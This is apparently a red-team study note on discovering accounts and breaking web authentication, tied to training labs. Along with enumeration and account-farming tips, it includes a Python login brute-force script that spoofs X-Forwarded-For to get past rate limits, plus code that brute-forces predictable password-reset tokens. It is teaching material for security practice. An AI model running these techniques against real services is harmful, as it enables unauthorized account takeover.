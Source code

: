 # Account discovery

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)
[![authenticationbypass](../../../../_badges/thmp/authenticationbypass.svg)](https://tryhackme.com/room/authenticationbypass)
[![adventofcyber2](../../../../_badges/thm/adventofcyber2/day3.svg)](https://tryhackme.com/room/adventofcyber2)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)
[![bruteit](../../../../_badges/thm-p/bruteit.svg)](https://tryhackme.com/r/room/bruteit)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
![nibbles](../../../../_badges/htb-p/nibbles.svg)
[![keeper](../../../../_badges/htb-p/keeper.svg)](https://app.hackthebox.com/machines/Keeper)
[![weak_password](../../../../_badges/rootme/web_server/weak_password.svg)](https://www.root-me.org/en/Challenges/Web-Server/Weak-password)

<div class="row row-cols-lg-2"><div>

Account discovery is a self-made name to categorize techniques to find users that have an account of the website.

* 🐟 Try digging in the API (if any)
* 👀 Try testing emails in the password forgot page
* 🙌 Try testing emails in the register page
* 📚 Try to find exposed configuration files
* ✈️ Try to create an account
* ...

We often test weak or mostly default credentials. You can do it manually, or use [Fuzzing](fuzzing.md) with these [wordlists](/cybersecurity/red-team/_knowledge/topics/wordlists.md#accounts).
</div><div>

**Additional notes** 🔥

* Brute forcing accounts is usually done if there is nothing else we can try, while fuzzing for default credentials is acceptable.

Refer to use [Fuzzing](fuzzing.md) or [network authentification tools](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md) such as hydra, which may also be used to brute force forms.

* Try using `xxx+anything@xxx` to register multiple accounts with the 'same' address email `xxx@xxx`. It may be handy to 'farm' accounts.
</div></div>

<hr class="sep-both">

## Username Enumeration

<div class="row row-cols-lg-2"><div>

#### Username Enumeration — Login Page

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Some websites return a different message when the username was not found and when the password is incorrect, helping in enumeration.

Most websites are computing the hash at each login. If they are using an algorithm "slow enough" <small>(rare)</small> and only doing it if a user exists, then delays in responses may indicate that a user exists.

While rare, some websites prefill fields only if the user exists.

<br>

#### Username Enumeration — Register Page

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

We can't register an account with an already taken username or email. It can be exploited to enumerate usernames.
</div><div>

#### Username Enumeration — Password Forgot/Reset Page

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)
[![marabout](../../../../_badges/rootme/realist/marabout.svg)](https://www.root-me.org/en/Challenges/Realist/Marabout)

Websites may indicate if a user exists when we try to reset a password.
</div></div>

<hr class="sep-both">

## Log In Page

<div class="row row-cols-lg-2"><div>

#### Log In Page — Rate Limit

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Some websites are implementing a rate timer often using a super increasing wait time. If they are checking the `X-Forwarded-For` to avoid blocking proxies, it means we can arbitrary pick an IP to "ban".

```py
import argparse
import time
import requests

parser = argparse.ArgumentParser(description='Login Brute Force Script')
parser.add_argument('-u', '--userlist', dest='users', required=True, help='Path to the wordlist of usernames')
parser.add_argument('-p', '--passlist', dest='passwords', required=True, help='Path to the wordlist of passwords')
args = parser.parse_args()

with open(args.users, 'r') as f:
    users = [line.strip() for line in f.readlines()]

with open(args.passwords, 'r') as f:
    passwords = [line.strip() for line in f.readlines()]
```
</div><div>

```py
s = requests.Session()
ip_offset = 1
base_ip = '0.0.0.'
for user in users:
    for password in passwords:
        while True:
            response = s.post(
                url='URL/login.php',
                data={
                },
                headers={
                    'X-Forwarded-For': base_ip + str(ip_offset)
                }
            )
            if 'Invalid credentials' in response.text:
                print(f"[-] Failed with {user}:{password}")
                break
            elif 'Too many login failures' in response.text:
                time.sleep(30)
            elif 'Welcome back' in response.text:
                print(f"[+] Found credentials {user}:{password}")
                break
            else:
                print(f"[!] Unexpected reply for {user}:{password}")
                print(response.text)
                break

            ip_offset += 1
```

</div></div>

<hr class="sep-both">

## Password Reset

<div class="row row-cols-lg-2"><div>

#### Password Reset — Predictable Token

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)
[![marabout](../../../../_badges/rootme/realist/marabout.svg)](https://www.root-me.org/en/Challenges/Realist/Marabout)

Reset tokens associated with a request to reset a user account should be randomly generated. Some are using predictable values:

* 🪓 Some hashing function: `md5(username)`
* 🗺️ Some short number: `12345`
* 🪦 Some temporary password based on known data
* 🚧 Some known values to the user, such as with [CVE-2016-0783](https://nvd.nist.gov/vuln/detail/CVE-2016-0783)

```php!
$time = intval(microtime(true) * 1000);
$token = md5($username . $time);
```

Most servers are returning a Date Header with the date of the server. We only need to brute force the microsecond.

```py
time_string = "Sat, 04 May 2024 09:35:52 GMT"
format_string = "%a, %d %b %Y %H:%M:%S %Z"
dt_object = datetime.datetime.strptime(time_string, format_string)
dt_object = pytz.timezone('GMT').localize(dt_object)
base_epoch_ms = int(dt_object.timestamp() * 1000)
for epoch_ms in range(base_epoch_ms - 1000, base_epoch_ms + 1000 + 1):
    token = hashlib.md5(('username' + str(epoch_ms)).encode()).hexdigest()
    # test the token
```
</div><div>

#### Password Reset — Security Questions

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Some websites are allowing security questions, often from a pre-determined set of questions to avoid users using weak questions.

The problem is that some questions can be easily answered using OSINT or brute forced when the question has limited answers.

Refer to [security question wordlists](/cybersecurity/red-team/_knowledge/topics/wordlists.md).

<br>

#### Password Reset — Birthday_problem

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

If an application is using a lot of tokens and the tokens are not long enough, two users may get the same token [as per this](https://en.wikipedia.org/wiki/Birthday_problem).

<br>

#### Password Reset — Insecure Handling

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

If the token is provided in a GET, it means it will be present in the `referer` Header if set, but it doesn't seem exploitable.
</div></div>